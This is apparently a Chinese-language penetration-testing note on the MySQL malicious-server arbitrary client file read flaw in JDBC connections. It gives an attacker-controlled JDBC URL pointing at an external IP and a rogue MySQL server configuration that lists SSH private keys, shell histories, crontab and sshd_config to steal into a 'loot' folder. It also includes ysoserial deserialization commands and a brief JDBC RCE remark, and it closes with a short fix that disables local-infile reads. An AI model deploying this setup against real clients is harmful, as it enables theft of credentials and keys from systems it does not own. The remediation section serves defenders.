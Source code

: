 

## [**MySQL** 服务端恶意读取客户端任意文件漏洞]

<https://cloud.tencent.com/developer/article/1818089>

如果java的mysql的jdbc连接信息可以自定义，可以修改mysql的ip和连接配置如：
```
test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
jdbc:mysql://47.109.58.205:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
root
password
```
可以使用下方的项目伪造一个mysql服务，从而读取客户端的文件。
<https://github.com/rmb122/rogue_mysql_server>


^
```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/root/.bash_history","C:/boot.ini","/var/log/mysqld.log","/etc/os-release","/root/.mysql_history","/etc/issue","/root/.ssh/id_rsa","/var/log","/etc/ssh/sshd_config","/etc/crontab","/root/.ssh/authorized_keys","/root/.ssh/id_rsa.pub"]
save_path: ./loot
always_read: true
from_database_name: false
max_file_size: 0

auth: false
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']

```
```
/var/log/mysqld.log 可能有mysql密码
```

## MySQL JDBC RCE 姿势
mysql-connector-java >= 8.0.20, >= 5.1.49 中不可用。
利用的jdbc反序列化RCE。
<https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b>\
<https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2>


## **修复**
原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。

```
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?user=test&maxAllowedPacket=655360&allowLoadLocalInfile=true";
Class.forName(driver);
Properties properties = new Properties();
properties.setProperty("allowLoadLocalInfile","false");
properties.setProperty("allowUrlInLocalInfile","false");
properties.setProperty("allowLoadLocalInfileInPath","");
Connection conn = DriverManager.getConnection(DB_URL,properties);
```

